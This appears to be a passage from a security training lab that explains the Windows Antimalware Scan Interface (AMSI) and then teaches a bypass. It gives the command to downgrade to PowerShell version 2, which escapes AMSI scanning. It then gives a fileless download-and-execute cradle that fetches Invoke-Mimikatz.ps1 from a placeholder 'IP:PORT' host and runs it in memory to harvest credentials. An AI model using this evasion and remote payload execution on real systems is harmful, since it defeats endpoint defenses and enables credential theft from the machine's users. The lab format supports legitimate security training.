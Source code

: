 ### Antimalware Scan Interface
The Windows ***Antimalware Scan Interface (AMSI)*** is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. ***AMSI provides enhanced malware protection for end users and their data, applications, and workloads.***

AMSI provides features such as script scanning and behaviour monitoring, and allows detection of script functions that are known to be 'malicious'.

AMSI is integrated into the following components of Windows:

1. User Account Control (UAC) – elevation of EXE, COM, MSI, or ActiveX installation
2. PowerShell – scripts, interactive use, and dynamic code evaluation
3. Windows Script Host – wscript.exe and cscript.exe
4. JavaScript and VBScript
5. Office VBA macros

The following diagram shows the AMSI architecture and how applications and antimalware engines interact with it.

![Antimalware Scan Interface APIs in Windows 10 (Image Credit: Microsoft)](https://il-labforge-assets.origin.immersivelabs.team/uploads/9Wqt06UQWWQ2MMsmYt4fYi1UPJuD8nxnUIejZJ5-qhI.jpeg)

Antimalware Scan Interface APIs in Windows 10 (Image Credit: Microsoft)

### AMSI Bypass
AMSI is a feature introduced in Windows 10 which works with version 5 of PowerShell. There are several bypasses for it; however, in this lab we will be using the most common one. When .NET version 2 is installed, it enables the usage of PowerShell version 2, which does not have support for AMSI. After calling PowerShell version 2, you can then use the ‘fileless malware’ technique presented in the previous lab of this series.

```
# To run the Powershell version 2
powershell.exe -version 2
```

### Note
Once the ***PowerShell 2*** is called, check the version for the confirmation and perform a ***fileless malware*** execution:
```
# Download the 'Invoke-Mimikatz.ps1' file in 'memory'
Invoke-Expression (New.Object Net.WebClient).DownloadString('http://IP:PORT/Invoke-Mimikatz.ps1')

# Once the file is downloaded, you won't be able to list it. Just run the file
Invoke-Mimikatz
```